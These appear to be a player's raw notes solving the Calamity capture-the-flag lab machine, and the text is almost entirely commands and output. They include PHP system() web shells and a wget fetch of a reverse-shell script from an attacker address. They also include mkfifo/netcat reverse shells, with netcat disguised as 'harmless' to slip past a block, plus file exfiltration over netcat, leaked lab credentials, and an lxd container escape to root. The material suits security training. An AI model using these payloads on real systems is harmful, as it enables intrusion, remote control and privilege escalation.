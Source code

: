 **By: curl -v http://10.10.10.27/admin.php  
Account find:  
admin   
skoupidotenekes**  
**For POC:**   
```shell
<?php system('ls -lah') ?>
Permission denied:
<?php exec('wget http://10.10.14.11/revshell.php') ?>
```
**Try but fail by VM setting:**
```shell
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1234 >/tmp/f') ?>
Check useful information:
<?php system('ls -lah /home/xalvas') ?>
<?php system('cat /home/xalvas/intrusions') ?> 
```
#### COPY nc Method:**
```shell
<?php system('which nc') ?>

<?php system('cp /bin/nc /dev/shm/harmless') ?> 
<?php system('chmod +x /dev/shm/harmless') ?>
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/dev/shm/harmless 10.10.14.11 1234 >/tmp/f') ?>
```
#### Try copy out to listen(TBC as CTF style):
```shell
--------------------------------------------------------
/home/xalvas/recov.wav -> recov.wav

As nc blocked,
cp /bin/nc ~/nba
Kali: nc  -l -p 9090 > recov.wav
Remote:./nba -w3 10.10.14.11 9090 < recov.wav
--------------------------------------------------------
```
#### Then know "xalvas" password and login SSH:
18547936..*
Kail:
```shell
git clone https://github.com/saghul/lxd-alpine-builder.git
./build-alpine -a i686
```
#### SCP via SSH:
```shell
scp alpine-v3.9-i386-20190523_1714.tar.gz  xalvas@10.10.10.27:/tmp/
Password: 18547936..*
```
#### Calamity:
```shell
xalvas@calamity:/tmp$ lxc image import alpine-v3.9-i386-20190523_1714.tar.gz --alias alpine
Image imported with fingerprint: 8e6c7cb2b5f1d8c52d8a4912c485984414a2e6954ce46c7f08b6a4e99caae6aa

xalvas@calamity:/tmp$ lxc init alpine alexcold -c security.privileged=true
Creating alexcold

xalvas@calamity:/tmp$ lxc config device add alexcold somedisk disk source=/ path=/mnt/root recursive=true
Device somedisk added to alexcold

Then start the docker:
xalvas@calamity:/tmp$ lxc start alexcold

xalvas@calamity:/tmp$ lxc exec alexcold --mode=interactive /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # ls -la
total 12
drwx------    2 root     root          4096 May 23 09:36 .
drwxr-xr-x   19 root     root          4096 May 23 09:34 ..
-rw-------    1 root     root            10 May 23 09:36 .ash_history
~ # cd /mnt/root/root
/mnt/root/root # ls
peda      root.txt  scr
/mnt/root/root # cat root.txt
9be653e014d17d1a54f9045e3220743c
```
